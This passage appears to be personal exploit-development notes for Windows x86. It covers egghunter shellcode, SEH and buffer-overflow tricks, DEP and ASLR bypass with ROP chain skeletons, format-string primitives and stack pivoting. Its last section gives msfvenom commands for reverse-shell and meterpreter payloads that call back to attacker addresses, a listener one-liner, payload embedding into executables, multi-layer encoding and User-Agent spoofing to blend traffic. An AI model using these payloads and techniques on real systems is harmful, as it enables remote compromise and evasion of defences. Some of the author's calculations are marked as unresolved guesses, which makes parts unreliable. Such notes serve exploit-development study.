(BOF/SEH) ========================================== # If you have a small buffer space you can do the following: - Find a register that indicates to the start of your shellcode and do use call reg instruction or JMP reg. - Also you could use JMP backward or negative JMP - Don’t forget to fill the remains bytes with \x90 for the stack allignment to avoid crashes - You can use also Island Hopping technique - Use narly to identify security protections on the modules - Also you can use process hacker Properties on the process to check the protections and loaded modules and each protections also. - The address of the instruction or the module contains null-byte, then do partial overwrite for example if the address of the instruction as the following 00414E7A, then set the EIP as 414E7A. - If u got a small buffer to detect badchars, Use the small buffer which fits the amount and repeat until get all badchars.######################################### # --[ 6 - Egghunters######################################### # Manually send a dummy shellcode with an egg(dword): dummmy = b"w00tw00t" duy += b"\x41"*400 # then search for it all over the memory space using Windbg command: s -a 0 L?80000000 "w00tw00t" After that to determine where our shellcode is located we can take the found address and check it: !address {your_found_Address} See the Usage part. See if its inside the "Stack", see the "Base Address" and "End Address". # ---[ NTAccess Egghunting============================//=== CODE = ( " " " loop_inc_page: " " or dx, 0x0fff ;" " loop_inc_one: " " inc edx ;" " loop_check: " " push edx ;" f" push 0x{ntaccess} ;" " pop eax ;" " int 0x2e ;" " cmp al,05 ;" " pop edx ;" " loop_check_valid: " " je loop_inc_page ;" " is_egg: " f" mov eax, 0x{egg_little_endian} ;" " mov edi, edx ;" " scasd ;" " jnz loop_inc_one ;" " scasd ;" " jnz loop_inc_one ;" " matched: " " jmp edi ;" ) You can get the "NTAccess syscall number" as the following from Windbg: windbg > u ntdll!NtAccessCheckAndAuditAlarm
# ---[ SEH Egghunting============================//=== CODE = ( " start: " " jmp get_seh_address ;" " build_exception_record: " " pop ecx ;" f" mov eax, 0x{egg_little_endian} ;" " push ecx ;" " push 0xffffffff ;" " xor ebx, ebx ;" " mov dword ptr fs:[ebx], esp ;" " is_egg: " " push 0x02 ;" " pop ecx ;" " mov edi, ebx ;" " repe scasd ;" " jnz loop_inc_one ;" " jmp edi ;" " loop_inc_page: " " or bx, 0xfff ;" " loop_inc_one: " " inc ebx ;" " jmp is_egg ;" " get_seh_address: " " call build_exception_record ;" " push 0x0c ;" " pop ecx ;" " mov eax, [esp+ecx] ;" " mov cl, 0xb8 ;" " add dword ptr ds:[eax+ecx], 0x06 ;" " pop eax ;" " add esp, 0x10 ;" " push eax ;" " xor eax, eax ;" " ret ;" )######################################### # --[ 7 - Reverse Engineering For Bugs######################################### # ---[ Notes: - For discovering ports used by the software use TCPView. - Check also the permission that the app is using. - Sync IDA & Windbg. - When you working on an app that recives data remotely set a break point on recv API and start - your analysis from this part. - Always dump the arguments of the functions, During the analysis. - Make sure to go through function one by one & Check the function arguments and structure before - it’s get excuted or after depending on the function. - Always check the registers before & after executions of the functions. - Always perform the shift or arithmatic or logical operatons manual to check the values. - Set a hardware breakpoint on the location that has your data to see where your data get’s - accessed in the code, Instead of wasting time going through un-nessecery functions or codes. - Take note of the static offsets that been used in the code for comperission or else. - Remember to check out non sintaized memmcpy operations size - Always check the offsets and how the data is handled. - If there are any checks on the size and limit, Use negative size. And check which parts values are not checked. # Find if can overwrite the return address: Check the destnation address of the copy operation and find if it’s within the stack !teb: and check the range. Next Check the return address using the "k" command to check the return address. 0:079> k # ChildEBP RetAddr 000d3bfe98 0056a21f FastBackServer!FXCLI_OraBR_Exec_Command+0x43b 01 0d3bfeb4 00581366FastBackServer!FXCLI_C_ReceiveCommand+0x130 02 0d3bfef0 0048ca98 FastBackServer!FX_AGENT_Cyclic+0x116 03 0d3bff48 006693e9 FastBackServer!ORABR_Thread+0xef 04 0d3bff80 774a9564 FastBackServer!_beginthreadex+0xf4 05 0d3bff94 775f293c KERNEL32!BaseThreadInitThunk+0x24 06 0d3bffdc 775f2910 ntdll!__RtlUserThreadStart+0x2b 07 0d3bffec 00000000 ntdll!_RtlUserThreadStart+0x1b After this check it using dds commmand and evaluate it to check if it’s possiable to overwrite. 0:079> dds 0d3bfe98 L2 0d3bfe98 0d3bfeb40d3bfe9c 0056a21f FastBackServer!FXCLI_C_ReceiveCommand+0x130 0:079> ? 0056a21f < 0d3bfe9cEvaluate expression: 1 = 00000001 then use the destination address and the return address to check the needed value for over write. (???)0:079> ? 0d3bfe9c - 0056a21f Evaluate expression: 216358013 = 0ce55c7d <- wth i got this, so far to overwrite yiao. (???)0:062> ? 0d51fe9c - 0d513b30 Evaluate expression: 50028 = 0000c36c <- other got this, wth, will comeback later on this.############################################# # --[ 8 - DEP Bypass############################################# There are many ways to bypass DEP as the following:VirtualAlloc(MEM_COMMIT + PAGE_READWRITE_EXECUTE) + copy memory - This will allow you to create a new executable memory region, copy your shellcode to it, and execute it. This technique may require you to chain 2 API’s into each other.HeapCreate(HEAP_CREATE_ENABLE_EXECUTE) + HeapAlloc() + copy memory In essence, this function will provide a very similar technique as VirtualAlloc(), but may require 3 API’s to be chained together))SetProcessDEPPolicy() This allows you to change the DEP policy for the current process (so you can execute the shellcode from the stack) (Vista SP1, XP SP3, Server 2008, and only when DEP Policy is set to OptIn or OptOut)NtSetInformationProcess() This function will change the DEP policy for the current process so you can execute your shellcode from the stack.VirtualProtect(PAGE_READ_WRITE_EXECUTE) This function will change the access protection level of a given memory page, allowing you to mark the location where your shellcode resides as executable.WriteProcessMemory() This will allow you to copy your shellcode to another (executable) location, so you can jump to it and execute the shellcode. The target location must be writable and executable. # ---[ Functions Prototype Requirements=======================================//=== # ---[ VirtualAlloc()=============//=== LPVOID WINAPI VirtualAlloc( __in_opt LPVOID lpAddress, __in SIZE_T dwSize, __in DWORD flAllocationType, __in DWORD flProtect ); lpAddress = The starting address of the region to allocate. This is the new memory location where you want to allocate memory. It might be rounded to the nearest multiple of the allocation granularity. dwSize = The size of the region to allocate, in bytes. This value may need to be generated using a ROP gadget, especially if the exploit needs to avoid null bytes. flAllocationType = Set to 0x1000 (MEM_COMMIT). This value might need to be placed on the stack using a ROP gadget if you cannot directly use the value in your exploit. flProtect = Set to 0x40 (EXECUTE_READWRITE). Similar to flAllocationType, this value might need to be placed on the stack using a ROP gadget. va = pack("<L", (0x45454545)) # dummy VirutalAlloc Address va += pack("<L", (0x46464646)) # Shellcode Return Address va += pack("<L", (0x47474747)) # # dummy Shellcode Address va += pack("<L", (0x48484848)) # dummy dwSize va += pack("<L", (0x49494949)) # # dummy flAllocationType va += pack("<L", (0x51515151)) # dummy flProtect # ---[ HeapCreate()=============//=== HANDLE WINAPI HeapCreate( __in DWORD flOptions, __in SIZE_T dwInitialSize, __in SIZE_T dwMaximumSize ); flOptions = Options for the heap. Set to 0x00040000 (HEAP_CREATE_ENABLE_EXECUTE) to allow execution of code from the heap. dwInitialSize = The initial size of the heap. This value may need to be generated using a ROP gadget or can be set to a fixed value depending on the exploit context. dwMaximumSize = The maximum size of the heap. This can be set to zero to allow the heap to grow as needed. hc = pack("<L", 0x55555555) # dummy HeapCreate Address hc += pack("<L", 0x56565656) # Return Address after HeapCreate hc += pack("<L", 0x57575757) # dummy flOptions hc += pack("<L", 0x58585858) # dummy dwInitialSize hc += pack("<L", 0x59595959) # dummy dwMaximumSize # ---[ SetProcessDEPPolicy()=============================//=== BOOL WINAPI SetProcessDEPPolicy( __in DWORD dwFlags ); dwFlags = Flags to set the DEP policy. Set to 0 to disable DEP for the process. Only effective when the system DEP policy is OptIn or OptOut. spd = pack("<L", 0x5A5A5A5A) # dummy SetProcessDEPPolicy Address spd += pack("<L", 0x5B5B5B5B) # Return Address after SetProcessDEPPolicy spd += pack("<L", 0x5C5C5C5C) # dummy dwFlags # ---[ NtSetInformationProcess()=================================//=== NTSTATUS WINAPI NtSetInformationProcess( __in HANDLE ProcessHandle, __in PROCESS_INFORMATION_CLASS ProcessInformationClass, __in PVOID ProcessInformation, __in ULONG ProcessInformationLength ); ProcessHandle = Handle to the process. For current process, this is typically -1. ProcessInformationClass = A value from the PROCESS_INFORMATION_CLASS enumeration. To modify DEP settings, use ProcessExecuteFlags (25). ProcessInformation = A pointer to a buffer containing the information to set. For DEP settings, this should point to a DWORD with the desired execute flag. ProcessInformationLength = Size of the buffer pointed to by ProcessInformation. For DEP settings, this will be sizeof(DWORD). nsip = pack("<L", 0x5D5D5D5D) # dummy NtSetInformationProcess Address nsip += pack("<L", 0x5E5E5E5E) # Return Address after NtSetInformationProcess nsip += pack("<L", 0x5F5F5F5F) # dummy ProcessHandle nsip += pack("<L", 0x60606060) # dummy ProcessInformationClass nsip += pack("<L", 0x61616161) # dummy ProcessInformation nsip += pack("<L", 0x62626262) # dummy ProcessInformationLength # ---[ VirtualProtect()========================//=== BOOL WINAPI VirtualProtect( __in LPVOID lpAddress, __in SIZE_T dwSize, __in DWORD flNewProtect, __out PDWORD lpflOldProtect ); lpAddress = The starting address of the region of pages whose access protection attributes are to be changed. dwSize = The size of the region whose access protection attributes are changed, in bytes. flNewProtect = The memory protection option. Set to 0x40 (PAGE_EXECUTE_READWRITE) to make the memory region executable. lpflOldProtect = A pointer to a variable that receives the old access protection of the first page in the specified region of pages. Can be NULL if this information is not needed. vp = pack("<L", 0x63636363) # dummy VirtualProtect Address vp += pack("<L", 0x64646464) # Return Address after VirtualProtect vp += pack("<L", 0x65656565) # dummy lpAddress vp += pack("<L", 0x66666666) # dummy dwSize vp += pack("<L", 0x67676767) # dummy flNewProtect vp += pack("<L", 0x68686868) # dummy lpflOldProtect # ---[ WriteProcessMemory()====================//=== BOOL WINAPI WriteProcessMemory( __in HANDLE hProcess, __in LPVOID lpBaseAddress, __in LPCVOID lpBuffer, __in SIZE_T nSize, __out SIZE_T *lpNumberOfBytesWritten ); hProcess = A handle to the process memory to be modified. For the current process, this is typically -1. lpBaseAddress = A pointer to the base address in the specified process to which data is written. lpBuffer = A pointer to the buffer that contains data to be written in the address space of the specified process. nSize = The number of bytes to be written to the specified process. lpNumberOfBytesWritten = A pointer to a variable that receives the number of bytes transferred into the specified process. This parameter can be NULL. wpm = pack("<L", 0x69696969) # dummy WriteProcessMemory Address wpm += pack("<L", 0x6A6A6A6A) # Return Address after WriteProcessMemory wpm += pack("<L", 0x6B6B6B6B) # dummy hProcess wpm += pack("<L", 0x6C6C6C6C) # dummy lpBaseAddress wpm += pack("<L", 0x6D6D6D6D) # dummy lpBuffer wpm += pack("<L", 0x6E6E6E6E) # dummy nSize wpm += pack("<L", 0x6F6F6F6F) # dummy lpNumberOfBytesWritten # ---[ Find Code Cave for your shellcode=================================//=== # We need to locate the code section first dd module+3c l1 # then take the first dword and add it to the module with 2c dd module+dword+2c l1 # then add the dword value to the module ? module+dword # Now take the results and check the address and it's range & search for the code cave !address result_address # Now search for the code cave s -[1]b start end 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 #You can check the address size of the code cave as the following !address code_cave # ---[ Find ROP Gadgets=================//=== # rp++ rp++.exe -f binary -r length > output.txt --va if you using the last version to set a base_address # ---[ Find IAT manually using windbg====================================//=== #We first get the IAT offset !dh -f {module} results example: 20000 [ 4AC] address [size] of Import Address Table Directory #The IAT located at offset 20000, Now we dump the table as the following dds {module}+20000 result example" 1480d02c 76a2f620 KERNEL32!WriteProcessMemoryStub # We can see clearly the IAT address is 1480d02c #If the target not importing it, You can easily get any function IAT & It's address and calculate the differance between it and the function you want, and add or subbtract the differance from the included function Example: 0:000> u 76a2e2b0 KERNEL32!GetLastErrorStub: 76a2e2b0 ff251c0fa976 jmp dword ptr [KERNEL32!_imp__GetLastError (76a90f1c)] 76a2e2b6 cc int 3 76a2e2b7 cc int 3 76a2e2b8 cc int 3 76a2e2b9 cc int 3 76a2e2ba cc int 3 76a2e2bb cc int 3 76a2e2bc cc int 3 #So KERNEL32!GetLastErrorStub is at 76a2e2b0, Next get your desiered function 0:000> u KERNEL32!WriteProcessMemoryStub KERNEL32!WriteProcessMemoryStub: 76a45220 8bff mov edi,edi 76a45222 55 push ebp 76a45223 8bec mov ebp,esp 76a45225 5d pop ebp 76a45226 ff257813a976 jmp dword ptr [KERNEL32!_imp__WriteProcessMemory (76a91378)] 76a4522c cc int 3 76a4522d cc int 3 76a4522e cc int 3 #Now KERNEL32!WriteProcessMemoryStub is at 76a45220, Now subtract the larger address from the smallest one or flip the calculation 0:000> ? 76a45220 - 76a2e2b0 Evaluate expression: 94064 = 00016f70 #So here we got the differance which is 00016f70 and we need to add it to 76a2e2b0 which is KERNEL32!GetLastErrorStub address when we get it 0:000> u 76a2e2b0 + 00016f70 KERNEL32!WriteProcessMemoryStub: 76a45220 8bff mov edi,edi 76a45222 55 push ebp 76a45223 8bec mov ebp,esp 76a45225 5d pop ebp 76a45226 ff257813a976 jmp dword ptr [KERNEL32!_imp__WriteProcessMemory (76a91378)] 76a4522c cc int 3 76a4522d cc int 3 76a4522e cc int 3 # ---[ Find the memory address=========================//=== - Use IDA to extract the IAT address for the function. - If it has nullbytes then use the neg instruction. - Use an instruction that get ptr to locate the VMA of the function. example: Function IAT = FF221111 eax = Function IAT #get the VMA, Never use `xchg` instruction it will result in access violation mov eax, dword [eax] # which has the [] pointer add ecx, dword [eax] # the ecx has to be 0 or if can, you would add it to the value there and decrease or increase it - other instructions such as lea sub # ---[ Tips=====//=== - Always check the register that will backup the esp address, and if that register can be used in other operations. - When there is a badchars problem upu could neg or add and sub from it. - If you can’t use a gadget cause it has an instruction that could miss your ROP, then locate if it’s behind your neccessery instructions. For example, if the gadget at address 0x01edff4e is: 0x01edff4e: jmp eax; push esp; pop ecx; ret; the jmp instruction will missup our ROP Chain, So we can take the gadget address starting from `push esp`. [TIP] You can use the address 0x01edff4f (the next instruction after jmp eax) to start at push esp; pop ecx; ret; and avoid the jump. - If you use Call on ROP chain it will missup cause Calls will change the stack and result in back to the function it's inside. - if you got gadget with ret num: rop = pack("<L", 0x63636363) # ret 0xc rop += pack("<L", 0x63636363) # next gadget rop += b"\x41" * 0xc # alignment for the ret 0xc############################################# # --[ 9 - ASLR Bypass############################################# There are the Following ways to bypass ASLR: - Non-ASLR Module: Some modules that loaded or come with the software, Are not compiled with ASLR protection, Which we can use instead of the software itself or protected modules. - Partial Overwrite: If we can do a partial overwrite when we find one of the vulnerabilities, The CPU translate the partial address to a full address for exampel, If the current base address is 1000000 and we have our JMP ESP instruction at offset 73AE if we only sent the 73AE the CPU will translate it to a full address as the following 10007AE which is the full address of our instruction. - ASLR Bruteforcing: This method is more effective on x86 as the range of the address is smaller in size than the x64_x86. this is possible on 32-bit because ASLR provides only 8 bits of entropy. The main limitation is that this only works for target applications that don’t crash when encountering an invalid ROP gadget address or in cases in which the application is automatically restarted after the crash. or Also tunning as a child process. - Information leak & Logical Bugs: There are set of logical bugs & Info leak bugs that can be used to leak the address of the module, This can be done by abusing the fact that some APIs & Functions can be used to retrive these kind of information. Info leakes: - Most Win32 APIs do not pose a security risk but a few can be directly exploited to generate an info leak. These include the DebugHelp APIs1 (from Dbghelp.dll), which are used to resolve function addresses from symbol names. - Similar APIs are CreateToolhelp32Snapshot2 and EnumProcessModules.3 Additionally, an C runtime API like fopen can be be used as well. # Calculate the base address - Get a function name from exports table and offset ex: 0000000089DEA Get_Addresses # Now when leaking the function address subtract the offset to get the base address. base_address = 16089DEA - 89DEA # Get the prefered load address using windbg > dd Module + 3c L1 > dd Module + 108 + 34 L1############################################# # --[ 10 - Format Strings Vulnerabilities############################################# # ---[ Reading Permitive=======================//=== %s = String. Can read arbitrary memory %d = Signed decimal integer. Can leak integer values. %u = Unsigned decimal integer. Can leak integer values. %x = Unsigned hexadecimal integer. Can leak memory addresses. %p = Pointer (address in hexadecimal). Can leak memory addresses. %n = Number of characters written so far. Can write to arbitrary memory. %c = Character. Can read arbitrary memory. %f = Floating-point number. Can leak float values. %o = Unsigned octal. Can leak integer values. %e, %E = Scientific notation (floating-point). Can leak float values. %g, %G = Shortest of %e/%f or %E/%f. Can leak float values. %a, %A = Hexadecimal floating-point. Can leak float values. # ---[ Writing Permitive=======================//=== %n = Writes the number of characters printed so far into the provided integer pointer. Used in format string exploits to write values to specific memory addresses. %hn = Similar to %n, but writes the number of characters into a short integer. Can be used to write to memory with more precision and smaller footprint. %hhn = Similar to %n, but writes the number of characters into a char or unsigned char. Allows for even more precise control over the writing of memory, often used in tight memory spaces. %ln = Similar to %n, but writes the number of characters into a long integer. Useful for architectures or situations where long is the preferred or necessary data type. %lln = Similar to %n, but writes the number of characters into a long long integer. Applicable for 64-bit systems where long long is used to address larger memory spaces. # ---[ (General) ASLR Exploiting=================================//=== # ASLR Bypass senario - Calculate the offset between leaked address and a function on the stack address - Leaked address "10000000" - KERNELDLL function "10000010" # Now add/sub the offset diff then leak the value pointed by the stack address # ---[ Stack Pivoting============================//=== # Stack Adjustment - Adjusts the stack pointer (often to bypass stack-based protections). - Used to move the stack pointer to a controlled area, like a buffer filled with the next stage of the exploit. add esp, [value] ; ret # Indirect Jump - Changes the instruction pointer based on a stack value. - Allows for a jump to a controlled memory address, useful for redirecting execution flow to attacker-controlled code. pop eip; ret # Indirect Call - Similar to indirect jump but uses call instruction. - Utilized to call a function or a gadget with a parameter set up by previous gadgets. call [esp + offset] # Stack Pivot - Directly modifies ESP to point to a different memory location. - Primary gadget for pivoting the stack to a new location, like a heap buffer containing more ROP gadgets or shellcode. xchg eax, esp;ret, mov esp, ebp; pop ebp; ret # NOP/Slide - Sequence of no-operation instructions. - Used to align the stack or create a ‘slide’ to ensure reliable execution of subsequent gadgets. nop############################################# # --[ 11 - MSFVenom Commands (Shellcode/etc)############################################# # ---[ Oneliner Listener ============================== # Quick handler without interactive console # Good. $ msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/shell_reverse_tcp; set LHOST tun0; set LPORT 8080; exploit" # Handler Resource File. Create a resource file for frequently used handler configurations: [!] I never use this, so idk how it works. i find it might be useful for future? i put here for temp. # Save as handler.rc use exploit/multi/handler set payload windows/x64/meterpreter/reverse_tcp set LHOST 10.10.10.10 set LPORT 4444 set ExitOnSession false set EnableStageEncoding true run -j # Run with: msfconsole -r handler.rc ExitOnSession = false Keep handler running after connection run -j = Run as background job EnableStageEncoding true = Encrypt stage transmission # ---[ Payload Size and Buffer Calculations ================================================== [+] Ofcoz the size is depends many possibility can be big or smaller, if you specifiy badchar many, its big then. # Check payload size before generating msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f c -b "\x00" 2>&1 | grep "Payload size" # Typical sizes (approximate): # windows/shell_reverse_tcp: ~324 bytes # windows/meterpreter/reverse_tcp: ~354 bytes (staged, stager only) # linux/x86/shell_reverse_tcp: ~68 bytes # cmd/unix/reverse_bash: ~60 bytes [+] Size Tip: Staged payloads are smaller because the stager downloads the full payload. If buffer space is limited, use staged payloads. If you need reliability over size, use stageless. Add NOP sled with -n 16 for alignment. # ---[ List Windows payloads only ================================= msfvenom -l payloads | grep windows # Show payload options msfvenom -p windows/meterpreter/reverse_tcp --list-options -f raw = Raw bytes. Direct binary shellcode. -f c = C array -f python -f ruby -f hex = Hexadecimal string -f js_le = JavaScript. Browser exploits. # ---[ 32-bit ====================== # (32-bit) # Payload size: 220 bytes msfvenom -p windows/exec CMD=calc.exe -b "\x00\x00" -e x86/shikata_ga_nai -f python -v shellcode # (32-bit) Meterpreter. Staged. reverse_tcp # Payload size: 381 bytes msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -b "\x00\x00" -f python -v shellcode # (32-bit) Shell. Stageless. reverse_tcp # Payload size: 351 bytes msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 -b "\x00\x00" -f python -v shellcode # (32-bit) Meterpreter. Bind TCP. Stageless. # Payload size: 353 bytes msfvenom -p windows/meterpreter/bind_tcp LPORT=4444 -b "\x00\x00" -f python -v shellcode # (32-bit) Shell. Bind TCP. Stageless. # Payload size: 355 bytes msfvenom -p windows/shell_bind_tcp LPORT=4444 -b "\x00\x00" -f python -v shellcode # Generate with NOP sled for alignment # Payload size: 367 bytes msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 -b "\x00" -n 16 -f python -v shellcode # Staged. Meterpreter. Reverse HTTP. # Payload size: 648 bytes (big. big. big. big) msfvenom -p windows/meterpreter/reverse_http LHOST=tun0 LPORT=8080 -b "\x00\x00" -f python -v shellcode # Stageless. Shell. Reverse TCP. # Payload size: 351 bytes (below?) msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.1 LPORT=8080 -b "\x00\x00" -f python -v shellcode # EXITFUNC=thread. Meterpreter. Reverse HTTP. msfvenom -p windows/meterpreter/reverse_http LHOST=tun0 LPORT=443 EXITFUNC=thread -f python -v shellcode # ---[ 64-bit ====================== [+] yea i know its for 32bit, just to put here for comparison bytes lol. # (64-bit) Meterpreter Staged reverse_tcp # Payload size: 551 bytes msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -b "\x00\x00" -f python -v shellcode # (64-bit | C Format) Staged reverse_tcp shellcode # Payload size: 551 bytes msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -b "\x00" -f c -v shellcode # (64-bit) Staged.Reverse_tcp.Encoded x86/shikata_ga_nai. Barchar removal. # -e x86/shikata_ga_nai: Uses the Shikata Ga Nai polymorphic encoder (polymorphic?? idk) # -i 5: Applies 5 iterations of encoding # Payload size: 645 bytes msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f c -v shellcode # (64-bit) Shell. Stageless. reverse_tcp # Payload size: 351 bytes msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -b "\x00\x00" -f python -v shellcode # ---[ Extra ==================== # Embed payload into existing executable # Executable Templates. Embed payloads into existing executables using the -x flag. The original executable's functionality is preserved alongside the payload. This is useful for understanding how payloads can be packaged during authorized assessments. $ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -x /path/to/template.exe -k -f exe -o output.exe # Using Multiple Encoders $ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.3 LPORT=443 -e x86/shikata_ga_nai -i 3 -e x86/jmp_call_additive -i 2 -f exe -o multi_encoded.exe Command Breakdown: First applies 3 iterations of shikata_ga_nai Then applies 2 iterations of jmp_call_additive Creates a layered encoding pattern [+] Looks useful to me, dont mind if i do. # Custom Shellcode msfvenom -p generic/custom PAYLOADFILE=custom_shellcode.bin -a x86 --platform windows -f exe -o custom_payload.exe Command Breakdown: -p generic/custom: Uses custom shellcode PAYLOADFILE=custom_shellcode.bin: Specifies the file containing custom shellcode Allows integration of custom-developed shellcode # Custom HTTP/HTTPS Headers msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.3 LPORT=443 HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64)" -f exe -o custom_ua.exe Command Breakdown: HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64)": Customizes the User-Agent header Helps blend payload traffic with legitimate HTTP traffic Additional Header Options: HttpHost: Sets the Host header HttpCookie: Sets Cookie header HttpReferer: Sets Referer header